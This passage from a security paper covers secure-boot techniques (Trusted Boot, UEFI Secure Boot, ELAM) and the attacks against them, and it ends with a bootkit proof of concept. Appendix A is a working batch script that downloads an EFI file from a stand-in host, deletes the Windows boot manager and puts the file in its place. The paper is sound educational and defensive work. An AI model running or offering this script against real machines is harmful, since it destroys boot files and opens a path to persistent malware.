programming. One reason might be that it allows easier support and
firmware updates, easier (and cheaper) both for the developing vendor,
and the end-user. Another reason could be that the probability of this
threat scenario being utilized by an attacker is deemed unlikely, as it
requires a target (firmware) specific attack, and therefore the OEM
considers the cost vs benefit unprofitable. A third reason might be that
the customers do not care about these vulnerabilities, as they neither
understand nor are informed about them, and it would therefore not make
sense for the OEM to spend extra time and money in order to secure the
system.

Trusted Boot
------------

In order to launch malware unnoticed by the Trusted Boot and remote
attestation, an attacker would have to either (ignoring implementation
vulnerabilities):

A.  Patch the remote attestation service, so that malicious clients
    would be marked as trusted.

B.  Modify both the TPM PCRs and Event Log before handover to the remote
    attestation service.

    -   This can be done by recording the actual good measurements, and
        then "replaying" them.

    -   Or you can do a masquerade attack, by reporting known-good
        measurements from another trusted system.

C.  Modify the measuring code block in SMM, so that the "good"
    measurement, expected by the remote attestation service is recorded,
    rather than the actual "bad" measurements.

Now, if the remote attestation service could be compromised (point A),
the protocol would not be the problem, but it could be a possible attack
vector.

The TPM PCRs should be safe from intrusion, as per the TPM specification
\[12\], but if the implemented protocol used for attestation does not
handle checking of the digital signature provided by the TPM
(Attestation Key) a man-in-the-middle attack could be carried out with
success. As Jain and Vyas \[23\] has proved, with the correct protocol
implementation;

"A malicious system cannot attest itself unless one or more of the
following conditions hold true:

-   Certificates can be forged.

-   Hardware attacks such as DMA or resetting PCR are possible.

-   TPM is broken and private key is retrieved.

-   Server's source of entropy is weak and hence it's nonce is
    predictable"\[23\].

Point C might then be the most severe vulnerability, as the measuring
code runs in SMM, and as we have seen in the previous section, without
the right protection in the OEM implementations, an attacker can modify
the code running in SMM.

Windows OS Loader
-----------------

An issue that the Secure Boot (Intel TXT & UEFI Secure Boot) doesn't
address and also isn't designed to handle - is malware that targets the
OS startup process, (e.g., overwriting essential startup files).
Antimalware software can usually prevent malicious code to run and
persist, but this could be moot if the malware is run before any
antimalware software is run.

ELAM (*see sections 7.1 and 8.2*) attempts to address this problem by
starting before most first-party and all third-party software then
verifying each of their files. Preventing bad drivers to be run -- in
most cases -- ELAM is by default configured to run known bad drivers if
they're critical for booting. ELAM will also, by default, allow the
execution of unknown drivers. Since ELAM is a relatively simplistic
heuristic tool for malware discovery, as described in *section 7.1*¸ it
would be possible for an attacker to change the malware's evaluated
signature, making it *unknown*. Making the malware critical for boot
would also be a valid method for bypassing the ELAM. Overwriting startup
files essential for a successful boot would make ELAM authorize code
execution.

Since ELAM is implemented to work in conjunction with antimalware
software (AM), it could be possible to attack the specific AM and
disable or modify the ELAM protection. By either exploiting \[24\] the
AM or fooling the AM by simulating user input \[25\].

 Proof of concept
================

In this proof of concept, we are going to demonstrate the importance of
having the UEFI Secure Boot enabled on your computer. We will prove that
without UEFI Secure Boot, an attacker can launch code before the OS is
started. We are going to compare an attack on a windows computer that
has UEFI secure boot enabled, and one windows computer that has UEFI
Secure Boot disabled. All the provided screenshots are from virtual
machines.

As this is only a proof of concept, the "bootkit" will only display the
message:

"\*\*\*\* ALL YOUR SYSTEM BELONG TO OLE-JOHAN DAHL \*\*\*\*"

We will replace the windows boot manager (bootmgfw.efi) with our
application as shown in Appendix B. We are using the UEFI development
environment GNU-EFI, which is a more lightweight dev-env than EDK2.

The compiled EFI application main.efi (from Appendix B) can be stored on
a web server at URL <http://attack.er/main.efi>. The Batch script from
Appendix A will ask for administrator privileges, mount the boot
partition, download main.efi, delete bootmgfw.efi, and then copy
main.efi to the previous location of bootmgfw.efi. We expect that we
will be able to overwrite the boot manager on both systems. We further
expect that main.efi will only run on the system without UEFI Secure
Boot. The implementations as to what happens when a non-signed EFI
application requests to execute is OEM specific, as such we do not know
whether the system with UEFI Secure Boot enabled will turn off, enter a
recovery mode, etc.

When you launch the *bootkit.bat* file, the following message will
appear:


To continue, click **More info** and **Run anyway**.

An empty CMD window will then appear:


Then Windows UAC will prompt you for administrator privileges:



After confirming, your computer will restart:


And then depending on whether you have UEFI Secure Boot or not, you will
get one of the two results:


The screengrab on the left shows the result without UEFI Secure Boot
activated, and the screengrab to the right shows the result with UEFI
Secure Boot activated. As expected, the machine without UEFI Secure Boot
runs our EFI application without further questions, but the machine with
UEFI Secure Boot enabled does not launch the application, but instead
returns that a Security Violation has occurred. This particular
implementation from VMWare then continues to search for other bootable
devices.

Now, in the real world you would probably not want to only display this
message, but instead initialize malware, and then continue with
launching the usual operating system. However, we have proved that it is
possible to launch EFI applications before the operating system is
started. The security implications from this is, as discussed in section
3, severe. The delivery method would also probably be different, for
example to disguise the script bootkit.bat (or application with similar
functionality) as a legitimate application, so that a person unaware of
the security risk would gladly ignore the warnings from Windows.

Conclusion
==========

The purpose of this paper was to explore the general techniques that can
be implemented to secure the boot process of a system, as well as
showing why it\'s important and discuss problems with these techniques.

We have presented techniques to:

-   Assure that the state of the system is trusted after boot with
    Trusted Boot.

-   Secure the PI and UEFI initialization with Intel Boot Guard.

-   Secure UEFI with UEFI Secure Boot.

-   Secure the OS Loader with ELAM and integrity check.

As we have shown, by tooling these techniques together, you can achieve
a secure system boot, although there are some problems with how the
techniques are implemented.

As mentioned in the introduction, Secure Boot is a term used for all
techniques that help to secure the boot process - from platform
initialization to the point where the operating system (OS) is loaded.
Earlier in this paper, we establish that a system without any
implementation of a secure boot will have many exploitable attack
vectors. The proof of concept proves that a system without UEFI Secure
boot is vulnerable to bootkits. But with the help of UEFI Secure Boot
this particular vulnerability is mitigated.

Securing the OS Loader is also an important step to establishing a safe
boot process. The OS Loader is responsible for starting the OS, loading
the required drivers and taking control over the hardware. ELAM and
integrity checking can prevent the OS loader to load malicious drivers.

In conclusion: no single technique can be implemented to secure a system
during the Boot Process. As with other processes, the security is not
stronger than the weakest link. Therefore, you must have a secure base,
which is expanded recursively through each component verifying its
subsequent component(s). Each of these components must implement their
own techniques to secure its services. It is also necessary to implement
an overarching method to verify that the system boot can actually be
trusted.

 References
==========

\[1\] *Unified Extensible Firmware Interface (UEFI) Specification Version 2.9*, I. UEFI Forum, 2021.
\[2\] *UEFI Platform Initialization (PI) Specification Version 1.7 (Errata A)*, I. UEFI Forum, 2020.
\[3\] V. Zimmer, M. Rothman, and S. Marisetty, *Beyond BIOS : developing with the unified extensible firmware interface*, 2nd ed. ed. Hillsboro, Oreg: Intel Press, 2010.
\[4\] D. Marshall and E. Graff, \"Overview of Boot Options in Windows.\" \[Online\]. Available: https://docs.microsoft.com/en-us/windows-hardware/drivers/devtest/boot-options-in-windows
\[5\] R. Osgood, \"Hard Drive Rootkit Is Frighteningly Persistent.\" \[Online\]. Available: https://hackaday.com/2015/06/08/hard-drive-rootkit-is-frighteningly-persistent/
\[6\] M. Smolar and A. Cherepanov, \"UEFI threats moving to the ESP: Introducing ESPecter bootkit.\" \[Online\]. Available: https://www.welivesecurity.com/2021/10/05/uefi-threats-moving-esp-introducing-especter-bootkit/
\[7\] T. Hudek, E. Graff, D. Coulter, and J. Baxter, \"UEFI Validation Option ROM Guidance.\" \[Online\]. Available: https://docs.microsoft.com/en-us/windows-hardware/manufacture/desktop/uefi-validation-option-rom-validation-guidance
\[8\] R. Bali, \"Cold Boot Attack On Cell Phones, Cryptographic Attacks,\" doi: http://dx.doi.org/10.13140/RG.2.2.13560.14088.
\[9\] V. Bashun, A. Sergeev, V. Minchenkov, and A. Yakovlev, \"Too Young to be Secure:Analysis of UEFI Threats and Vulnerabilities,\" 2013, doi: 10.1109/FRUCT.2013.6737940.
\[10\] J. Yao and V. Zimmer, *Building Secure Firmware: Armoring the Foundation of the Platform*. Berkeley, CA: Berkeley, CA: Apress L. P, 2020.
\[11\] *Trusted Platform Module Library Part 1: Architecture*, T. C. Group, 2019-11-08 2019.
\[12\] *TCG PC Client Platform Firmware Profile Specification*, T. C. Group, 2021.
\[13\] *TCG Reference Integrity Manifest (RIM) Information Model*, T. C. Group, 2020.
\[14\] W. Futral and J. Greene, \"Fundamental Principles of Intel® TXT,\" in *Intel® Trusted Execution Technology for Server Platforms*. Berkeley, CA: Apress, 2013.
\[15\] W. Arthur, D. Challener, and K. Goldman, \"Platform Security Technologies That Use TPM 2.0,\" in *A Practical Guide to TPM 2.0*. Berkeley, CA: Apress, 2015.
\[16\] A. T. B. D. Group, \"AMD Security and Server innovation,\" presented at the UEFI PlugFest, 2013. \[Online\]. Available: https://uefi.org/sites/default/files/resources/UEFI\_PlugFest\_AMD\_Security\_and\_Server\_innovation\_AMD\_March\_2013.pdf.
\[17\] J. Hall, T. Hudek, D. Coulter, and E. Graff, \"Secure boot.\" \[Online\]. Available: https://docs.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-secure-boot
\[18\] E. Graff, D. Coulter, T. Hudek, K. Pacquer, and J. Baxter, \"Windows Secure Boot Key Creation and Management Guidance.\" \[Online\]. Available: https://docs.microsoft.com/en-us/windows-hardware/manufacture/desktop/windows-secure-boot-key-creation-and-management-guidance
\[19\] M. Suhanov, \"Measured Boot and Malware Signatures: exploring two vulnerabilities found in the Windows loader.\" \[Online\]. Available: https://bi-zone.medium.com/measured-boot-and-malware-signatures-exploring-two-vulnerabilities-found-in-the-windows-loader-5a4fcc3c4b66
\[20\] D. Simpson *et al.*, \"Secure the Windows boot process.\" \[Online\]. Available: https://docs.microsoft.com/en-us/windows/security/information-protection/secure-the-windows-10-boot-process
\[21\] B. Sergey, M. Alex, and R. Eugene, *Rootkits and Bootkits*. No Starch Press, 2019.
\[22\] Y. Bulygin, J. Loucaides, A. Furtak, O. Bazhaniuk, and A. Matrosov, \"Summary of Attacks Against BIOS and Secure Boot.\" \[Online\]. Available: http://www.c7zero.info/stuff/DEFCON22-BIOSAttacks.pdf
\[23\] L. Jain and J. Vyas, \"Security Analysis of Remote Attestation.\" \[Online\]. Available: https://seclab.stanford.edu/pcl/cs259/projects/cs259\_final\_lavina\_jayesh/CS259\_report\_lavina\_jayesh.pdf
\[24\] B. Blaauwendraad and T. Ouddeken, \"Using Mimikatz' driver, Mimidrv, to disable Windows Defender in Windows.\" \[Online\]. Available: https://www.os3.nl/\_media/2019-2020/courses/rp1/p61\_report.pdf
\[25\] Z. A. Genç, G. Lenzini, and D. Sgandurra, \"A game of \"Cut and Mouse\": bypassing antivirus by simulating user inputs,\" in *ACSAC \'19: Proceedings of the 35th Annual Computer Security Applications Conference*, 2019, doi: 10.1145/3359789.

 Appendix A
==========

File: bootkit.bat
```bat
@ECHO OFF
IF NOT "%1"=="am_admin" (powershell start -verb runas '%0' am_admin & exit /b)
mountvol b: /s
powershell -c "Invoke-WebRequest -Uri 'http://attack.er/main.efi' -OutFile '%CD%\main.efi'"
del B:\EFI\Microsoft\Boot\bootmgfw.efi
copy %CD%\main.efi B:\EFI\Microsoft\Boot\bootmgfw.efi
shutdown -r -f -t 00
```
 Appendix B
==========

File: main.c

Compiles to an EFI Application using GNU-EFI.
```c
#include <efi.h>
#include <efilib.h>
 
EFI_STATUS efi_main(EFI_HANDLE ImageHandle, EFI_SYSTEM_TABLE *SystemTable)
{
    // Hooks for accessing UEFI functions
    ST = SystemTable;
  
    uefi_call_wrapper(ST->ConOut->ClearScreen, 1, ST->ConOut);
 
    uefi_call_wrapper(ST->ConOut->SetAttribute, 1, ST->ConOut, EFI_RED); //Set Text Color
    ST->ConOut->OutputString(ST->ConOut, L"****   ALL YOUR SYSTEM BELONG TO OLE-JOHAN DAHL   ****\r");  
    
    while(1);
    
    return EFI_SUCCESS;
}
```
[^1]: A UEFI Image is executable code which runs during the boot
    process. These can be located on PCI cards, system flash or hard
    disks.

[^2]: The kernel is the part of the operating system responsible for
    communicating with firmware, as well as managing resource
    allocation.

[^3]: UEFI Secure Boot was introduced in the UEFI Specification Version
    2.3.1 (Errata C) (released June 2012).

[^4]: A TCB is a small subset of the firmware, hardware and/or software,
    on which the security of a system is dependent on.

[^5]: Reference Integrity Manifest. Contains reference measurements from
    OEM and the organization. \[13\] *TCG Reference Integrity Manifest
    (RIM) Information Model*, T. C. Group, 2020.

[^6]: FPFs is one-time programmable storage that should be programmed by
    the OEM making them read-only.

